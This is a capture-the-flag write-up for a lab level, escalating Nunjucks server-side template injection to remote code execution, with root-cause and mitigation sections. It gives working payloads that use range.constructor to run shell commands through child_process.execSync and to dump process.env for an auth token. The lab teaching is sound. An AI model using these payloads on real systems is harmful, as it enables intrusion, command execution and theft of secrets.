# Level 21 - Template Injection

Link: [Level 21](https://breachlab.org/tracks/mirage/21)

---

## Objective

Sendly. Your input is rendered as a template, server-side. Escape the data, reach the engine (SSTI → RCE).

---

## Reconnaissance

Looks like a simple mail client application used to send/receive email.



These are some template syntax which can be used to send email in web template format.



This is how a sample template would look.



This the input field source code for the email template:



```js
body:JSON.stringify({template:document.getElementById("template").value})
```
Here comes interesting part, isn't how the JavaScript is written, but what it is doing:

It is taking raw, unfiltered text from the user and sending it to a `/api/preview` endpoint to be rendered. This application relies entirely on the server to process the template.

If the backend server uses a template engine (like `Jinja2` for Python, `Twig` for PHP, or `HandlebarsJS` or `PugJS` for Node.js) and evaluates this user input directly as a template rather than just passing data into a predefined template, an attacker can hijack the template engine.

This vulnerability is known as `Server-Side Template Injection (SSTI)`.

Vulnerabilities happen when user input is glued directly into the template code instead of being passed safely as separate data.

---

## Exploitation

In SSTI, We type a simple mathematical expression wrapped in template engine syntax such as `{{7*7}}`.

If the server evaluates the expression and returns 49 instead of the literal text {{7*7}}, it proves that the application is executing code inside user input.



It confirms that the field is vulnerable to `SSTI`. Now we have to figure out which template engine is used here because Python (Jinja2 or Mako), PHP (Twig), or JavaScript (Nunjucks) template engine uses this `{{ ... }}` template syntax.

* Twig (PHP): `{{_self.env}}` (If it prints an object or environment details, it is Twig)
* Jinja2 (Python): `{{self.__dict__}}` or `{{config}}` (If it dumps configuration dictionary data, it is Jinja2)
* Nunjucks (Node.js): `{{range(1,2)}}` (If it prints `1`, it is Nunjucks.)



It seems to be using `Nunjucks` template engine, let's run few more test to confirm.

You can also tell which language's engine is been used just by looking at the error:



For more details and payload check out [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).



This confirms that the template engine is been used is `Nunjucks`. A Node.js templating engine inspired by Jinja2.

Let's test out some payload to see what we can get!



Interesting, it seems the `global` object looked and couldn't find the process name `global.process`. As it couldn't find the process, it crashed the command executed.

Let's test other context vectors like cycler and joiner:





It seems the application context might have removed the `global` object entirely.

Let's see what properties are actually accessible within the current scope by dumping the keys of the execution environment:



Wooh! that went out of the board but nvm, we got the accessible properties and it seems that the environment has removed the `global` context that lacks the standard Node.js `process` object, meaning standard `process.mainModule` or direct `process` access vectors wouldn't work.

But here we have some interesting stuffs also, since the standard JavaScript globally available functions are present, we could exploit the `fetch` function or the `crypto` web API to achieve your objective.

Let's inspect the runtime version and metadata to identify the environment:

```js
{{ range.constructor("return process.version")() }}
```



```js
{{ range.constructor("return Object.getOwnPropertyNames(process)")() }}
```



Use **Burpsuite** to get a clear view.



One thing I notice is the `getBuiltinModule` which is a modern Node.js capability exposed by the runtime, alongside things like:
`cwd` - Current Working Directory
`env` - Environment Variables
`argv` - Command-Line Arguments
`execPath` - Path to the Node.js executable

Let's check for more details like app directory, OS details etc.,:

```js
{{ range.constructor("return process.cwd()")() }}
```



```js
{{ range.constructor("return JSON.stringify({platform:process.platform,arch:process.arch,execPath:process.execPath})")() }}
```



Let's change the process template and see if we can perform command executions.

```js
{{ range.constructor("return process.getBuiltinModule('child_process').execSync('id').toString()")() }}
```



First the first, always go for the backend source code!

```js
{{ range.constructor("return process.getBuiltinModule('child_process').execSync('ls -al /repo/mirage-l21/app/src/').toString()")() }}
```



In the `app.js`, I found a internal location which can be accessed using a authorisation token. It seems the auth token is present in `env` process. Let's check that out!





```js
{{ range.constructor("return JSON.stringify(process.env)")() }}
```



Here we got the authorization token which can grant access to the internal page. It also contains the challenge flag.



Here we got access to the internal admin console which had the challenge flag.



---

## Root Cause

The application directly rendered attacker-controlled input as a `Nunjucks` template on the server without safely isolating or restricting template execution. This allowed template expressions to access JavaScript objects and constructors, eventually reaching the Node.js runtime.

The initial payload relied on the legacy `process.mainModule.require()` technique, which were unavailable in the challenge's Node.js v20.20.2 environment. Runtime enumeration showed that `process` was accessible but `process.mainModule` was `undefined`.

The modern `process.getBuiltinModule()` API was available instead, allowing the challenge from `Server-side Template Injection (SSTI)` to `Remote Code Execution (RCE)` path to be completed.

## Security Impact

Successful exploitation allowed an attacker to execute arbitrary code within the privileges of the Node.js application process.

Potential impact includes:

* Access to application files and sensitive data.
* Exposure of environment variables and application configuration.
* Execution of commands with the application's OS privileges.
* Compromise of secrets or credentials accessible to the process.
* Potential further compromise of the underlying host or connected services.

## Mitigation

* Never render untrusted user input as a server-side template.
* Treat user-provided template content as data rather than executable template code.
* Use a properly configured sandbox when user-defined templates are genuinely required.
* Prevent access to JavaScript constructors, prototypes, and unrestricted runtime objects.
* Run the application with the minimum required OS privileges.
* Keep Nunjucks and Node.js dependencies updated.
* Avoid exposing sensitive secrets through environment variables where possible.
* Apply additional isolation such as containers or separate execution environments for untrusted templates.

## Key Takeaways

* Nunjucks SSTI can become significantly more severe when JavaScript execution is reachable.
* `range.constructor` can provide access to the JavaScript `Function` constructor in vulnerable configurations.
* Exploit techniques can be highly dependent on the Node.js version.
* `process.mainModule` is not a reliable technique on modern Node.js versions.
